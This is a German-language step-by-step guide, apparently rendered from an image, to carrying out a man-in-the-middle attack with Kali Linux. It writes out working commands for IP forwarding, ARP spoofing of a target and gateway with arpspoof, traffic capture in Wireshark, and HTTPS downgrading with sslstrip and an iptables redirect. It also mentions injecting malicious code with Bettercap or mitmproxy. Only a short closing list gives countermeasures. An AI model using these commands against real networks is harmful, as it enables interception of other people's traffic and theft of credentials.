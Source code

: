 

**Schritt-für-Schritt-Anleitung für einen MitM-Angriff mit Kali Linux:**

**1. Vorbereitung:**

- **Kali Linux:** Stellen Sie sicher, dass Kali Linux auf Ihrem System installiert ist.
- **Zielnetzwerk:** Identifizieren Sie das Zielnetzwerk und die Zielgeräte.
- **Angreifergerät:** Ein Laptop oder ein anderes Gerät mit einer WLAN-Schnittstelle.
- **Netzwerkadapter:** Eine WLAN-Schnittstelle, die den Monitor-Modus unterstützt (für drahtlose Angriffe).

**2. ARP-Spoofing (für lokale Netzwerke):**

- ARP-Spoofing ist eine Technik, die es ermöglicht, den Datenverkehr zwischen zwei Geräten im lokalen Netzwerk abzufangen.
- Öffnen Sie ein Terminal in Kali Linux.
- Aktivieren Sie das IP-Forwarding, um den Datenverkehr weiterzuleiten:
    - `echo 1 > /proc/sys/net/ipv4/ip_forward`
- Verwenden Sie `arpspoof`, um das Zielgerät und das Gateway zu täuschen:
    - `arpspoof -i <Schnittstelle> -t <Ziel-IP> <Gateway-IP>`
    - `arpspoof -i <Schnittstelle> -t <Gateway-IP> <Ziel-IP>`
    - `<Schnittstelle>`: Die Netzwerkschnittstelle des Angreifergeräts (z. B. eth0 oder wlan0).
    - `<Ziel-IP>`: Die IP-Adresse des Zielgeräts.
    - `<Gateway-IP>`: Die IP-Adresse des Gateways.
- Mit diesem Befehl wird der Angreifer in die Kommunikation zwischen Opfer und Gateway platziert.

**3. Datenverkehr abfangen und analysieren:**

- Verwenden Sie Wireshark, um den abgefangenen Datenverkehr zu analysieren:
    - `wireshark -i <Schnittstelle>`
- Filtern Sie den Datenverkehr nach interessanten Protokollen (z. B. HTTP, FTP, Telnet).

**4. HTTPS-Downgrade (SSLstrip):**

- SSLstrip ist ein Tool, das HTTPS-Verbindungen auf HTTP downgradet.
- Führen Sie SSLstrip aus:
    - `sslstrip -a -l 8080`
- Konfigurieren sie Iptables, damit der Datenverkehr über den SSL-Strip läuft:
    - `iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080`

**5. Datenmanipulation (optional):**

- Tools wie Bettercap oder mitmproxy, ermöglichen, den abgefangenen Datenverkehr zu verändern, um beispielsweise Schadcode einzuschleusen.

**6. Gegenmaßnahmen:**

- Verwenden Sie VPNs, um den Datenverkehr zu verschlüsseln.
- Überprüfen Sie SSL/TLS-Zertifikate.
- Verwenden Sie HSTS (HTTP Strict Transport Security).
- Verwenden sie Netzwerksicherheitstools, welche ARP-Spoofing und andere MitM-Angriffe erkennen.
- Verwenden Sie kabelgebundene verbindungen.




## Vorbereitung
